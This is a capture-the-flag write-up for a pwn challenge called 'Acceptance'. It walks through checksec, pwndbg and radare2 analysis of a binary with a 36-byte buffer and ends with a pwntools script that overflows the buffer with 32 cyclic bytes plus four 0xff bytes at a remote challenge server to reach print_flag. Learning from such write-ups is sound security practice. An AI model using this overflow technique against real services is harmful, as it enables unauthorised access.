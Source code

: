 # Pwn/Acceptance

![Untitled](Pwn%20Acceptance/Untitled.png)

I downloaded the file and checked it with checksec:

![Untitled](Pwn%20Acceptance/Untitled%201.png)

I tried to execute the binary:

![Untitled](Pwn%20Acceptance/Untitled%202.png)

It takes the input (**abcd**) and outputs a message which is not the flag obviously x)

It felt like debugging time so i fired up **pwndbg:**

![Untitled](Pwn%20Acceptance/Untitled%203.png)

Disassembling and looking at the **main** function, i noticed :

- A declared **36(0x24) byte buffer**
- A **read** function call wich obviously handles our input
- A test eax, eax followed by a conditional **je**
- A print_flag function

Using radare2 i was able to better understand the code flow.

![Untitled](Pwn%20Acceptance/Untitled%204.png)

The **test eax, eax** and the **je** instruction decides whether we get the **flag** or **“Arg! Why don't you help me :((”.**

It performs a bitwise logical operation between the value in the **eax** register and itself then **je** checks if the result is **0.** If it is then we jump to the **print_flag** function.

I added a breakpoint at this instruction to check the value of eax at the moment of the test.

![Untitled](Pwn%20Acceptance/Untitled%205.png)

And passed a 36 bytes cyclic string as input 😈

When the breakpoint hits, RAX’s value seemed familiar ( a cyclic portion).

![Untitled](Pwn%20Acceptance/Untitled%206.png)

After identifying the offset, i wrote a python script to send **32** byte string concatenated to **4 \xff bytes** to meet the condition.

![Untitled](Pwn%20Acceptance/Untitled%207.png)

```python
from pwn import *

host = "20.169.252.240"
port = "4000"

pattern = cyclic(32)
payload = p32(0xffffffff)

send = pattern+payload
io = remote(host, port)
io.recvuntil('Help him: ')
io.send(send)
print(io.recvall())

"""
offset = cyclic_find(0x61616169)
print(offset)
"""
```

![Untitled](Pwn%20Acceptance/Untitled%208.png)

Made By Fckroun with <3